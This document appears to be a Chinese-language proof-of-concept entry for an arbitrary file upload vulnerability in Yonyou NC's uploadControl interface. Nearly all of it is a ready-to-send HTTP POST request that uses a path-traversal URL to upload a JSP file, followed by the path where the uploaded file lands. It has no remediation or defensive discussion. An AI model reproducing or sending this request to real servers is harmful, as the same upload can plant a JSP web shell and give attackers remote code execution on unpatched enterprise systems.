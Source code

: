 ## 用友NC-uploadControl接口存在文件上传漏洞


## poc
```
POST /mp/login/../uploadControl/uploadFile HTTP/1.1
Host: 192.168.63.133:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314

------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

111
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryoDIsCqVMmF83ptmp
```

![image](../../images/64e73208-5e7f-4dfe-a3eb-4a56057d6969.png)

文件路径：`http:127.0.0.1/mp/uploadFileDir/test.jsp`

